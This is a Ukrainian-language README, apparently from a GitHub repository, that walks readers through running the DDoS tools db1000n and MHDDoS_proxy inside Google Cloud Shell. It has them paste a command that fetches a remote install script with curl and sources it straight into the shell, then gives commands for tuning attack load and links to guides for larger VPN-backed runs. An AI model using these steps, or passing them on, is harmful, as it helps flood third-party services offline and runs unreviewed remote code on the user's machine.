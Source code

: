 #   Все буде Україна! 💙💛

**Привіт друзі!**   

 **☁️ Cloud Shell** зараз працє в ***ефемерному режимі***. Це означає, що все створене під час цього сеансу видалиться разом з віртуальною машиною **після закінчення даного сеансу**.

Якщо з'єднання перервано не підключайтесь повторно бо вийдете з ***ефемерного режиму***, а **завантажтесь знову**, натиснувши кнопку розташовану нижче

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=tutorial.md)

## Давайте запустимо «Death by 1000 needles» db1000n. 
З початку скопіюйте команду розташовану нижче та натисніть клавішу [ENTER] 👇
```bash
cd ~/ && source <(curl https://raw.githubusercontent.com/patatakartata/Cloud_Shell_DDoS/main/install.sh)
```
### Чудово, процес пішов!
Якщо почалися ***часті роз'єднання***, зупиніть процес натиснувши Ctrl+C, та запустіть команду зі зменшиним навантаженням розташовану нижче 👇
```bash
./db1000n --scale 0.8
```
або ще з більш зменшиним навантаженням 👇
```bash
./db1000n --scale 0.5
```
#### Для перевірки навантаження на процесор використаємо команду htop
Для цього додайте ще один термінал натиснувши "**+**" праворуч від заголовка працюючого терміналу, та запустіть наступну команду 👇
```bash
htop -F ./db
```
##### ***Пропоную для ознайомлення:***
* Натисніть на кнопку щоб завантажити новий сеанс Google Cloud Shell з інструкцією по запуску **MHDDoS_proxy**.

[![Open in Cloud Shell](https://gstatic.com/cloudssh/images/open-btn.svg)](https://console.cloud.google.com/cloudshell/editor?cloudshell=true&shellonly=true&git_repo=https://github.com/patatakartata/Cloud_Shell_DDoS&tutorial=mhddos_proxy_tutorial.md)
* Інструкція для початківців 👉 [Як запустити «Death by 1000 needles» (db1000n) в Google Cloud Shell](https://telegra.ph/YAk-zapustiti-dvanadcyat-ekzemplyar%D1%96v-Death-by-1000-needles-db1000n-v-Google-Cloud-Shell-ne-vikoristovuyuchi-VPN-05-04)
* Інструкція для більш досвідчених 👉 [Як запустити потужний Db1000nX100 з використанням VPN в Google Cloud Shell](https://telegra.ph/Zapusk-Db1000nX100-u-Google-Cloud-Shell-05-20)
